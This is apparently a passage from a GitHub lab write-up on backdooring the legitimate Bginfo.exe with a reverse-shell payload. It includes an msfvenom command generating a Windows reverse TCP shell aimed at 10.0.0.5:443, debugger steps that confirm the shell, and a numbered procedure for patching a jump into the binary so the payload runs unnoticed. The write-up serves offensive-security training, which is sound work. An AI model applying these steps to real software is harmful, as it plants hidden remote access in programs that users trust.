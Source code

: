 ```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C```
![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/a758cb03-9b26-49d3-8ec2-d90381932539)

# Testing the Shellcode
Let's see if we can force the Bginfo.exe binary to execute our shellcode using debugger first. We need to find the base address of Bginfo.exe, which we see is 0x00400000:

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/507dae91-e32c-4b2e-a1af-40da1979b3d4)

Since the new section .code1 that holds our shellcode has an RVA 000D8000, we can find the shellcode in a running process at 00400000+00d8000 = ‭4D8000‬. Below shows that the bytes at cd200 (file offset) match those at 4d8000 while the bginfo.exe is running:

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/d2a3b0a1-3a05-46dc-bddd-27901d1f548b)

When debugging the binary, if we set the EIP to point to 4D8000‬ and let the debugger run, if we have a listener on the attacking system, we get the reverse shell which confirms that we can successfully execute the shellcode if we manage to redirect the code execution flow of bginfo.exe:

![image](https://github.com/0x074b/Code-Process_Injection/assets/83349783/d44f53e6-c25d-4a24-a435-a995e5b17d8d)

> [!NOTE]
> In the above screenshot, ```pushad``` and ```pushfd``` are the first instructions at 4d8000 - it's not shown in this lab how those two instructions were inserted there, but there is no magic  - just add ```60 9c``` bytes  before the shellcode at 0xCD200 in the bginfo and you're set.

# Redirecting Code Execution Flow
In previous paragraph we confirmed the shellcode can be executed, but we did this manually, with help of a debugger. Now let's patch the binary, so that the process is automated and does not require our intervention.

The process of patching the binary to redirect the code execution flow is as follows:

<ol>
  <li>Find the first instruction that is 5 bytes in size inside the bginfo.exe binary
   <ol>
     <li>We will overwrite this instruction with a <em><strong>jump</strong></em> to the shellcode as explained in step 2</li>
     <li>Prior to overwriting this instruction, write it down somewhere - we will need to append it to our shellcode later in order to restore the code execution flow</li>
     <li>Write down the address of the next instruction to be executed next - after the shellcode has been executed, stack and registers restored, we will jump back to this address to let the bginfo.exe continue as normal</li>
   </ol>
  </li>
  <li>Overwrite the instruction in step 1 with a jump to the shellcode at 4D8000‬</li>
  <li>Save registers' and flags' state by prepending the shellcode with <em><strong>pushad</strong></em> and <em><strong>pushfd</strong></em> instructions - we do this so we can restore their state before redirecting the execution back to bginfo.exe and avoid any crashes</li>
  <li>Remember the ESP register value - we will need this when calculating by how much the stack size grew during the shellcode execution. This is required in order to restore the stack frame before redirecting the code execution back to bginfo.exe</li>
  <li>Modify the shellcode
    <ol>
      <li>Make sure that <em><strong>WaitForSingleObject</strong></em> does not wait indefinitely and does not freeze bginfo.exe once the shellcode is executed</li>
      <li>Remove the last instruction of the shellcode <em><strong>call ebp</strong></em> to prevent the shellcode from shutting down of bginfo.exe</li>
    </ol>
  </li>
```
